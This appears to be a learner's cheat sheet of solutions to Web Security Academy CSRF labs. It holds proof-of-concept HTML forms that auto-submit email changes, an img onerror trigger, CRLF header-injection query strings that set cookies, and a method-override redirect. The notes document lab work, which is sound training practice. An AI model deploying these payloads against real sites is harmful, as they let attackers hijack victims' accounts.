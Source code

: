 **CSRF where token is not tied to user session**
1. intercept csrf token
2. generate POC
3. replace with the csrf token
```html
<input type="hidden" name="csrf" value="kSb4MmYwwB5PR3QFLS5Ejt74NgWIXNjD" />
```
---

**CSRF where token is tied to non-session cookie**

    csrfKey=asdfasfasdfasdf
1. swap CSRFtoken and CSRFkey
```html
<form action="https://0a4200c90364b0738238ab5e00550002.web-security-academy.net/my-account/change-email" method="POST">
  	<input type="hidden" name="email" value=”hacked@mail" />
  	<input type="hidden" name="csrf" value="UpLJh87kpwbqUqvE4tGVjSScFgyJiPoj" />
	</form>
	<script>
  	<img src="https://0a4200c90364b0738238ab5e00550002.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=QBI13zb7V7C3i4ZK3OmawrhrtgZ4KdmK%3b%20SameSite=None" onerror="document.forms[0].submit()">
</script>
```
---

**CSRF where token is duplicated in cookie**
    
    csrf Cookie == csrf token body
1. `/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`
```html
<form action="https://0abe00200355e06180276ccd00c70056.web-security-academy.net/my-account/change-email" method="POST">
  	<input type="hidden" name="email" value="hackedasfadssdafd@ggq" />
  	<input type="hidden" name="csrf" value="fake" />
	</form
	<script>
  	<img src="https://0abe00200355e06180276ccd00c70056.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
</script>
```
---

**SameSite Lax bypass via method override**

    no csrf in body
1. change method from POST to GET
2. add &_method=POST in query param (change-email?email=test...&_meth...)
3. generate PoC
```html
<script>
	document.location = "https://0ad5003304d77b118000ccb200cb0052.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```
---


[def]: #client-side-summary